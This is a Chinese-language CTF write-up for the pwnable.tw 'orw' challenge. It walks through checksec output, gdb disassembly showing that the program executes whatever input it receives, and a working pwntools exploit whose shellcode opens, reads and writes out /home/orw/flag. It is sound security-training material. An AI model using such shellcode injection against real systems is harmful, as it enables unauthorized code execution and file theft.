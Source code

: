 ```yaml
---
title: "ORW"
date: 2019-07-16T21:49:20+08:00
tags: [""]
categories: ["工具使用接口", "CTF-WriteUp"]
---
```


> 参考资料：
>
> - <https://www.anquanke.com/post/id/150359>


首先检查安全保护等级：

```bash
$ checksec orw
[*] '/media/data/program/ctf/pwnable/orw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看到这个程序开启了以下保护机制：

- `Canary` 开启，部分 `RELOAD`，还有 `RWX` 读写执行段。

在 `gdb` 里面可以查看 `main` 函数的汇编代码：

```assembly
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048330  _init
0x08048370  read@plt
0x08048380  printf@plt
0x08048390  __stack_chk_fail@plt
0x080483a0  __libc_start_main@plt
0x080483b0  prctl@plt
0x080483c0  __gmon_start__@plt
0x080483d0  _start
0x08048400  __x86.get_pc_thunk.bx
0x08048410  deregister_tm_clones
0x08048440  register_tm_clones
0x08048480  __do_global_dtors_aux
0x080484a0  frame_dummy
0x080484cb  orw_seccomp
0x08048548  main
0x080485a0  __libc_csu_init
0x08048600  __libc_csu_fini
0x08048604  _fini

(gdb) disas main
Dump of assembler code for function main:
   0x08048548 <+0>:     lea    0x4(%esp),%ecx
   0x0804854c <+4>:     and    $0xfffffff0,%esp
   0x0804854f <+7>:     pushl  -0x4(%ecx)
   0x08048552 <+10>:    push   %ebp
   0x08048553 <+11>:    mov    %esp,%ebp
   0x08048555 <+13>:    push   %ecx
   0x08048556 <+14>:    sub    $0x4,%esp
   0x08048559 <+17>:    call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:    sub    $0xc,%esp
   0x08048561 <+25>:    push   $0x80486a0
   0x08048566 <+30>:    call   0x8048380 <printf@plt>
   0x0804856b <+35>:    add    $0x10,%esp
   0x0804856e <+38>:    sub    $0x4,%esp
   0x08048571 <+41>:    push   $0xc8
   0x08048576 <+46>:    push   $0x804a060
   0x0804857b <+51>:    push   $0x0
   0x0804857d <+53>:    call   0x8048370 <read@plt>
   0x08048582 <+58>:    add    $0x10,%esp
   0x08048585 <+61>:    mov    $0x804a060,%eax
   0x0804858a <+66>:    call   *%eax
   0x0804858c <+68>:    mov    $0x0,%eax
   0x08048591 <+73>:    mov    -0x4(%ebp),%ecx
   0x08048594 <+76>:    leave  
   0x08048595 <+77>:    lea    -0x4(%ecx),%esp
   0x08048598 <+80>:    ret    
End of assembler dump.
```

可见这是一个有着完整编译结构的文件，我们主要看 `main` 函数中的主要功能：

1. 在栈顶是 `%ecx = 0x4(%esp)` 的情况下，在 `*main+17` 行调用了函数 `orw_seccomp`；

2. 传入字符串 `0x80486a0`，调用 `printf@plt` 函数。可以在 `gdb` 中查看字符串的内容：

   ```gdb
   (gdb) x /s 0x80486a0
   0x80486a0:      "Give my your shellcode:"
   ```

3. 在 `*main+41 ~ *main+51` 行，函数通过三个参数调用了 `read@plt` 函数：

   ```c
   read(0x0, 0x804a060, 0xc8)
   ```

4. 在 `*main+61 ~ *main+66` 行，函数直接将传入的字符串作为一个函数进行了调用。

因此程序的逻辑就是：传入一个 `shellcode` 后这个 `shellcode` 会被执行。我们尝试直接按照题目的提示进行编写（`flag` 在文件 `/home/orw/flag` 中，并且只允许使用 `open`,`read`,`write` 三个函数）：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

class Challenge:
    def __init__(self, local=True):
        self.local = local
        if local:
            self.p = process(['./orw'])
        else:
            self.p = remote("chall.pwnable.tw", 10001)

    def gdb(self):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0])

    def inject_shellcode(self):
        self.p.recvuntil(":")
        shellcode = asm("\n".join([
            shellcraft.i386.pushstr("/home/orw/flag"),
            shellcraft.i386.linux.syscall("SYS_open", 'esp'),
            shellcraft.i386.linux.syscall("SYS_read", 'eax', 'esp', 0x30),
            shellcraft.i386.linux.syscall("SYS_write", 1, 'esp', 0x30)
        ]))
        assert len(shellcode) < 0xc8
        self.p.send(shellcode)

    def pwn(self):
        self.inject_shellcode()
        self.p.interactive()
        self.p.wait_for_close()


if __name__ == "__main__":
    c = Challenge(False)
    c.pwn()
```

也可以跟 `start` 一样，我们可以直接使用 80 中断调用这三个函数。


